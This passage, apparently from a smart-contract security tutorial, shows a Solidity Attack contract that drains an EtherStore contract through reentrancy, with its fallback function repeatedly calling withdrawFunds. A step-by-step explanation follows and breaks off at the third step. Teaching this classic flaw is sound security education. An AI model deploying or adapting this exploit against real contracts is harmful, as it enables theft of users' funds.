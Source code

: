 ```python
    
    contract Attack{
        EtherStore public etherStore;
    
        constructor( address _etherStoreAddress) {
            etherStore = EtherStore(_etherStoreAddress);
        }
    
        function attackEtherStore() public payable{
        
            //attack to the nearest ether
            require(msg.value >= 1 ether);
            
            //send eth to the depositFunds() function
            etherStore.depositFunds.value(1 ether)();
    
            //game start
            etherStore.withdrawFunds(1 ether);
        
        }
    
        function collectEther() public{
            msg.sender.transfer(this.balance);
        }
    
        //fallback function - where the magic begins
        function() payable{
            if(etherStore.balance > 1 ether){
                etherStore.withdrawFunds(1 ether);
            }
        
        }
    
    }
```

Let's break it down:

1. The attacker first deploys the EtherStore contract. Then, the attacker deploys the Attack contract and specifies the EtherStore contract's address in the constructor. This allows the Attack contract to interact with the EtherStore contract.


2. The attacker initiates the attack by calling the attackEtherStore() function of the Attack contract. This function first requires the attacker to send at least 1 Ether to the Attack contract. The attackEtherStore() function then calls the depositFunds() method of the EtherStore contract, depositing 1 Ether into the EtherStore contract. Immediately after, the attackEtherStore() function calls the withdrawFunds() method of the EtherStore contract, attempting to withdraw 1 Ether from the EtherStore contract.


3. When the EtherStore contract processes the withdrawal request, it sends 1 Ether back to the Attack contract. Since this is an Ether transfer, it automatically triggers the Attack contract’s callback function (fallback function).
